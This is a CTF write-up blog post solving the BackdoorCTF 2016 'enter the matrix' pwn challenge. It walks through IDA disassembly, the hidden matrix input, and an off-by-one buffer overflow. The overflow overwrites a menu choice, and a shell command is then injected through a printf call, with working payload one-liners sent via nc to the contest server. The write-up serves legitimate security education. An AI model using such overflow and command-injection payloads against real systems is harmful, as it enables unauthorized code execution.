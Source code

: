 ```yaml
---
title: "BackdoorCTF 2016 - enter the matrix"
layout: post
date: 2016-06-07 14:21
tag:
- BackdoorCTF2016
- Pwning
- Backdoor
writeup: true
star: false
points: 350
category: Pwn
---
```


![Backdoor Logo](/assets/images/backdoorctf16/logo.png)

**BackdoorCTF is the annual flagship CTF competition conducted by SDSLabs and InfoSecIITR.**

#### Points: 350

#### Description:

>Can you reach Zion and find the flag? You can download a copy of the Matrix to play with [here](http://hack.bckdr.in/ENTER-THE-MATRIX/matrix), but the flag can only be found on Zion, through the real Matrix at
nc hack.bckdr.in 9004

## Write-up

**For this one I went a long way around to finally get the solution. Since this is my first writeup with pwning, I'll be writing about the whole journey around the binary so if you want to just quickly see the solution, [jump here](#the-actual-solution)**

So they gave a 32-bit ELF non-stripped executable. I opened it up in IDA and saw a function named `zion`. According to the description this is where we have to reach to get the flag. This function was making some `_system` call which is what I had to finally exploit. I decided to go into its details later and rather focus on reaching there first.

I run the binary normally `./matrix`. It gave me three options.

~~~
Welcome to the Matrix
---------------------

Please choose a pill:
1) Red pill
2) Blue pill
3) Exit

Choice:
~~~

Since there were just three options I decided to try them all.

`1. Red Pill` - It asked for a name. I filled some random string. The binary said it was expecting "Neo" and exited. Then I tried with the name "Neo". It said "See you on the other side, Neo... Knock knock." and exited. I wonder what other side it's talking about :P

`2. Blue Pill` - Learning from before I tried with the name "Neo". Ah so we got something here. Something related to Matrices as I wanted. I tried random matrix sizes and inputs and landed no-where. It just gave back `AxB` for the two matrices. Ofcourse that meant I need to look at the disassembly.

But first I decided to try the `Exit` option as well just to be sure. It had nothing worthwhile.

So now I looked at the disassembly.

![Function call](/assets/images/backdoorctf16/choice_call.png)

Here `ds:choice` is where our inital choice is stored which was `2`(Blue pill) in this case. So we see that it calls the function with function name at certain offsets to `ds:dispatcher`. I saw the data section to see what was being called for which choice.

![Dispatcher](/assets/images/backdoorctf16/dispatcher.png)

So following is the relation between choice and function call.

~~~
0 - zion()
1 - red_pill()
2 - blue_pill()
3 - exit_out()
~~~

On seeing this I though what if I just call zion by entering `choice` as `0`. But they had checks on the value of the choice(1-3).

So I proceeded to the disassembly of `blue_pill()`. It had lots and lots of assembly. But I decided to go through it to reach `zion`. I saw this line "So, you found the hidden multiplier. Good for you." and decided thats where I must reach. I went through a lot of assembly trying to understand the control flow. Finally I deciphered that a lot of assembly corresponded to loops for taking all the inputs terms for each Matrix and then multiplying them together.

![Check 7](/assets/images/backdoorctf16/check7.png)

The above shows the code where the matrix size is being compared to the number `7` and I also saw that this size was necessary to reach `zion`. I tried running the binary with size = 7 but nothing. I expected there to be some check on values entered in the two matrix or the terms of `AxB`. So what I was that they had a variable set to the value `49`. This value was decremented once in for each term of `AxB` if it matched a certain value stored in the data section. In the end if the value of this variable was `0`, it went into `zion`.

![Variable Set](/assets/images/backdoorctf16/var_set.png)
<figcaption class="caption">Variable set to 0x31 = 49</figcaption>
<br>

~~~python
mov     eax, expected_mult[eax*4] # Moved the value at a certian position in the array `expected_mult` to `eax`

cmp     ecx, eax # Compare it to `ecx` which was actually storing the multiplied value after all calculations

setz    al # Sets the `al` register to 1 if the zero register is set to zero i.e. if eax == ecx in prev. step

movzx   eax, al # Copy that to eax

sub     [ebp+var_12D8], eax # This is where 1 is being subtracted.

add     [ebp+var_12D0], 1 # This is just loop variable updation.
~~~

![Variable check](/assets/images/backdoorctf16/var_check.png)

So I checked all the required values from the data section; converted them to decimal; made it into one of the Matrices and kept the other as an Identity matrix. So I finally had the input file ready:

~~~
2
Neo
7
1 0 0 0 0 0 0
0 1 0 0 0 0 0
0 0 1 0 0 0 0
0 0 0 1 0 0 0
0 0 0 0 1 0 0
0 0 0 0 0 1 0
0 0 0 0 0 0 1

10521 43403 21171 23103 54799 23988 10671
57977 61619 7400 34766 62088 64441  59137
30588 11031 36049 8340 43958 50999 12801
24559 57246 18798 49058 35052 27517 47281
57718 20889 42562 16616 50837 39276 14191
6891 21083 13814 51375 30500 20360 61632
60643 4598 56582 23548 45837 35370 23163
~~~

I tried `cat input | ./matrix` and got

~~~
So, you found the hidden multiplier. Good for you.
I shall now prepare a spaceship to Zion, Neo
~~~

Woot! I was so happy at having completed this challenge. Now all the was left was send the same thing to the binary running on the server.

~~~bash
cat input | nc hack.bckdr.in 9004
~~~

I got back the same resonse as above but no flag. This was bad. After all this work! I remembered that I hadn't actually looked at what `zion()` was actually doing.

## The actual Solution

![zion](/assets/images/backdoorctf16/zion.png)
<figcaption class="caption">From zion()</figcaption>
<br>
So all `zion` was doing was to execute the following command `printf '[name]'`. The name in our case was 'Neo'. There is no chance we can get a flag with that. I tried different combinations like `Neo\0;cat flag` etc. I was expecting the string comparison to stop at `\0`. Nothing like that happened so I was unable to get into `zion` without keeping the name 'Neo'.

Probably this wasn't the right path afterall. I check at what all places `zion` function was being called. There was this other option which we had rejected earlier - setting the `choice` to `0`. There was a posibility that I maybe able to overwrite the `choice` while entering the `name`. I checked how they were being stored.

![name_choice](/assets/images/backdoorctf16/name_choice.png)

So the name could have 64 characters an just after that in the memory our choice was being stores.

So I tried to overwrite it:

~~~bash
python -c "print '2\n' + a'*64 + '\000'" | ./matrix
~~~

And voila! It did enter `zion`. So now I used the appropriate string so as to print the flag. This was a bit tricky. But this is what I finally used.

~~~bash
python -c "print '2\n'+'a'*9+'\';ls;cat \'flag_6fbb122c8e7f3408e4c783fbfe5052da\';'+'echo \''+'\000'" | nc hack.bckdr.in 9004
~~~

So the flag was in a file named `flag_6fbb122c8e7f3408e4c783fbfe5052da`. This I find out by sending an `ls` as you can see in the input; then modified the input to `cat` the correct file.

Finally got the flag!

![flag](/assets/images/backdoorctf16/matrix_flag.png)

The Vulnerability in this pwn challenge was `Off by One` error. This means that the program was reading 65 letters into the name rather than 64. We have all done this negligence:

Writing<br> `for(int i = 0; i <= 10; i++)`<br> rather than<br> `for(int i = 0; i < 10; i++)` ;) #nostalgia :P

Cheers to those who read through it all! I hope you learnt something from my mistakes. **Go through other [writeups](../../) for more such fun challenges.**
